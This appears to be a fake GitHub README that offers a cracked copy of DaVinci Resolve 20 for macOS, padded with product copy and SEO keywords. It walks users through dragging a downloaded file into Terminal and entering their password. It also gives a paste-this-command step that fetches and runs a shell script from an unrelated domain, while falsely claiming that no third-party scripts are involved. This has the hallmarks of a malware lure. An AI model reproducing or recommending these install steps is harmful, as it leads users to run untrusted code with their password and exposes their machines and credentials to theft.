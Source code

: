<p align="center">
  <img src="https://rsload.net/images6/DaVinci_Resolve_Studio%20crack.jpg" width="120"/>
</p>

<h1 align="center">🎬 DaVinci Resolve 20 for macOS</h1>

<p align="center">
  <a href="https://davinci-mac-download.github.io/.github/">
    <img src="https://img.shields.io/badge/⬇️%20Download-DaVinci_Resolve_20-green?style=for-the-badge&logo=apple&logoColor=white"/>
  </a>
</p>

---

> Powerful all-in-one solution for professional editing, advanced color correction, audio post, and visual effects – now available with a manual setup for macOS.

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---
📌 About DaVinci Resolve for macOS
DaVinci Resolve for Mac is a professional-grade video editing and color correction software widely used by filmmakers, video editors, and colorists around the world. Combining advanced editing, visual effects, motion graphics, color grading, and audio post-production in one comprehensive application, it offers an all-in-one solution tailored for high-end video production workflows.

Optimized for macOS and Apple Silicon chips (M1, M2, M3), DaVinci Resolve delivers exceptional performance and real-time processing power, even when working with ultra-high-resolution footage. Its intuitive interface supports both beginners and professionals with flexible editing timelines, powerful color grading panels, and Fusion visual effects compositing.

Whether you are creating feature films, commercials, YouTube content, or documentaries, DaVinci Resolve equips you with industry-standard tools to produce cinematic-quality video projects on your Mac.

---

## 📌 Key Features

- 🎞️ Advanced multi-track timeline editing
- 🎨 Hollywood-grade color grading tools
- 🔊 Fairlight audio suite with ADR and 3D sound
- 🧩 Fusion VFX and motion graphics
- 📁 Supports Blackmagic RAW and ProRes workflows
- 👥 Collaborative features for studio teams

---

## 💡 System Compatibility

| OS          | Supported        |
|-------------|------------------|
| macOS 12+   | ✅               |
| macOS 11    | ⚠️ Limited       |

---

## 🖼️ Visual Preview

<p align="center">
  <img src="https://images.blackmagicdesign.com/images/media/releases/2020/20201113_davinci-resolve-17-1/carousel/3-davinci-resolve-17-1.jpg?_v=1605237879" width="720"/>
  <br/>
  <img src="https://is1-ssl.mzstatic.com/image/thumb/PurpleSource221/v4/10/f6/ba/10f6ba55-0d57-d9a0-3df4-b429b7edbf00/DaVinciResolve20_AppStore_Color.png/643x0w.jpg" width="720"/>
</p>

---

## 📢 Important Notes

- No external tools or third-party scripts involved  
- This setup does not modify system files  
- Compatible with Apple Silicon and Intel Macs  
- Keep the archive for future reinstalls

---

## 🔍 SEO Keywords

DaVinci Resolve, DaVinci Resolve Mac, DaVinci Resolve for Mac, DaVinci Resolve Mac download, download DaVinci Resolve for Mac, DaVinci Resolve macOS app, DaVinci Resolve MacBook, DaVinci Resolve MacBook Pro, DaVinci Resolve MacBook Air, DaVinci Resolve M1 Mac, DaVinci Resolve M2 Mac, DaVinci Resolve M3 Mac, DaVinci Resolve Apple Silicon, DaVinci Resolve Intel Mac, DaVinci Resolve dmg Mac, DaVinci Resolve direct download Mac, DaVinci Resolve .dmg file Mac, install DaVinci Resolve Mac, get DaVinci Resolve on Mac, DaVinci Resolve video editor Mac, DaVinci Resolve color grading Mac, DaVinci Resolve editing software Mac, DaVinci Resolve post production Mac, DaVinci Resolve 4K Mac, DaVinci Resolve Fusion Mac, DaVinci Resolve audio post Mac, DaVinci Resolve timeline Mac, DaVinci Resolve professional Mac, DaVinci Resolve media Mac



